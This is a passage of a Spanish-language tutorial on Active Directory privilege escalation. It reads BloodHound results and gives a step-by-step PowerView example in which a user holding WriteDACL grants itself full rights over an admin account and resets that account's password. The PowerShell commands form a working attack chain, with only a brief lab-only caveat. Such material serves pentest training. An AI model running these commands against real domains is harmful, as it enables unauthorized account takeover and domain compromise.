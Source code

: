 4. BloodHound te mostrará relaciones peligrosas como:

- `soporte01` → GenericAll → `Administrador`
- `user02` → WriteDACL → `Grupo: Administradores del Dominio`

🔴 Eso significa que esos usuarios **pueden obtener control del dominio** con técnicas como **DCSync**, **ACL abuse**, o **Pass-the-Hash**.

---

### ✅ EJEMPLO COMPLETO

#### Escenario:

- El usuario `intern01` tiene permiso WriteDACL sobre el usuario `adminTI`.
- Usamos PowerView para confirmarlo.
- Luego modificamos el ACL para añadirnos nosotros como controladores.

---

#### Paso 1: Cargar PowerView

```powershell
Import-Module .\PowerView.ps1
```

#### Paso 2: Verificar los permisos de intern01 sobre adminTI

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | Where-Object { $_.IdentityReference -like "*intern01*" }
```

Resultado esperado:

```plaintext
intern01 → WriteDACL
```

#### Paso 3: Usar PowerView para darnos control total (si quisiéramos)

> ⚠️ SOLO en entornos de laboratorio

```powershell
Add-ObjectACL -TargetSamAccountName adminTI -PrincipalSamAccountName intern01 -Rights All
```

---

#### Paso 4: Resetear contraseña y acceder como adminTI

```powershell
Set-ADAccountPassword -Identity adminTI -NewPassword (ConvertTo-SecureString "Nuevo123!" -AsPlainText -Force) -Reset
```

---
